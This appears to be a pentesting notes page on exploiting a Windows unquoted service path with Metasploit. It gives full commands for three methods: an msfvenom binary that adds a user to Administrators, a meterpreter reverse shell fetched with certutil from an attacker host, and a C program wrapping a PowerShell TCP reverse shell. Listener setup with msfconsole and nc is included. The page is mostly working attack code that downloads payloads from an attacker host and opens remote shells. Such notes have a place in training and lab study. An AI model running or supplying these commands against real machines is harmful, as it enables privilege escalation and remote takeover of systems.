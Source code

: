 ```yaml
---
legal-banner: true
---
```


### EXPLOITING INSECURE SERVICE WITH METASPLOIT

1.  let’s create a binary to Add a User to the Administrators with msfvenom.  
    `msfvenom -p windows/x64/exec CMD='net localgroup Administrators [USERNAME] /add' -f exe > common.exe`  
    
    ![](../../../../img/Windows-Environment/95.png)

2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/common.exe common.exe`

    ![](../../../../img/Windows-Environment/96.png)

3.  Move the binary to the path C:\\Program Files\\Unquoted Path Service  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`

    ![](../../../../img/Windows-Environment/97.png)

4.  Now run `net start unquotedsvc` on the target to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/98.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`

### GENERATING REVERSE SHELL WITH MSFVENOM

1.  let’s create a reverse shell binary with msfvenom.  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=[ATTACKER-IP] LPORT=[PORT] -o unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/99.png)
    
2.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/unquotedpathservice.exe unquotedpathservice.exe`  
    
    ![](../../../../img/Windows-Environment/100.png)
    
3.  Copy your reverse shell executable to path and rename it to match the first valid segment of the service unquoted path:  
    `copy C:\Temp\unquotedpathservice.exe "C:\Program Files\Unquoted Path Service\Common.exe"`  
    
    ![](../../../../img/Windows-Environment/101.png)
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    ![](../../../../img/Windows-Environment/102.png)

    **NOTE:** Alternatively, we can start a listener using nc:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
5.  Now run `net start unquotedsvc` on the target Machine to execute the exploit.  
    
    ![](../../../../img/Windows-Environment/103.png)

    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0`
    

### CREATING AN CUSTOMIZED EXPLOIT

1.  Compile the following custom executable directly on your attacker machine by copying the code into a text editor and saving it as exploit.c.
    
    ```C
    #include <windows.h>
    #include <stdio.h>
    
    int main(){ 
        system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('[IP-ADRESS]',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
        return 0; 
    }
    ```
    
    ![](../../../../img/Windows-Environment/104.png)
    
2.  Our exploit.c file is now ready to compile. We can compile it directly on our attacker machine using mingw-w64 with the following command:  
    `x86_64-w64-mingw32-gcc exploit.c -o common.exe`  
    
    ![](../../../../img/Windows-Environment/105.png)

    **NOTE:** If you don't have mingw-w64 installed, you can install it with:  
    `apt install mingw-w64`
    
3.  Host the binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/common.exe common.exe`  
    
    ![](../../../../img/Windows-Environment/106.png)
    
4.  Move the binary to the path C:\\Program Files\\Unquoted Path Service  
    `move common.exe "C:\Program Files\Unquoted Path Service\"`  
    
    ![](../../../../img/Windows-Environment/107.png)
    
5.  Start your listener on the attacking machine and run `net start unquotedsvc` on the target Machine to execute the exploit.  
    `sudo rlwrap -cAr nc -lvnp 1337`  
    
    ![](../../../../img/Windows-Environment/108.png)
    
    **NOTE:** If SeShutdownPrivilege is enabled you can reboot to have the service to restart automatically.  
    `shutdown /r /t 0 /f`